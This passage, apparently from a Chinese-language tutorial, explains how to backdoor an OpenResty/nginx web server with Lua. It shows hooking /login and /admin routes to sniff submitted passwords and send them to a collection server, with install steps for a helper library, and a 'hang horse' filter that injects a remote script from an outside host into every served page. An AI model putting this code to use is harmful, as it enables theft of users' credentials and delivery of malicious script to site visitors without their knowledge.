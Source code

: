 ```shell
access_by_lua 'cmd.sniff() ';
```

最佳的做法是放到目标站点的关键的location中，比如/login、/admin等，需要注意的是lua-resty-http是基于cosocket实现的，所以不能放在以下几个阶段
set_by_lua*, log_by_lua*, header_filter_by_lua*, body_filter_by_lua。
如果只想记录正确的密码，过滤掉错误的，就需要在header_filter_by_lua或body_filter_by_lua阶段，通过服务器返回的值来判断用户post提交的密码是否正确，这个时候如果想提交到服务器中的话，就不能使用lua-resty-http了，但是可以通过ngx.timer.at 以异步的方式提交。
另外也可以使用第三方的模块lua-requests在header_filter_by_lua或body_filter_by_lua阶段提交数据，利用luarocks为openresty安装lua-requests的过程如下：

```shell
wget http://luarocks.org/releases/luarocks-2.0.13.tar.gz
tar -xzvf luarocks-2.0.13.tar.gz
cd luarocks-2.0.13/
./configure --prefix=/usr/local/openresty/luajit \
    --with-lua=/usr/local/openresty/luajit/ \
    --lua-suffix=jit-2.1.0-alpha \
    --with-lua-include=/usr/local/openresty/luajit/include/luajit-2.1
make
sudo make install

sudo /usr/local/openresty/luajit/luarocks install lua-requests
```

### 挂马

在nginx返回数据时，将网页木马插入即可，代码如下：

```lua
function _M.hang_horse()
    local data = ngx.arg[1] or ""
    local html = string.gsub(data, "</head>", "<script src=\"http://docs.xsec.io/1.js\"></script></head>")
    ngx.arg[1] = html
end
```

放到目标网站的/目录下后的效果如下：

```shell
location ~* ^/ {
    body_filter_by_lua 'cmd.hang_horse()';
```
![](./images/004.png)
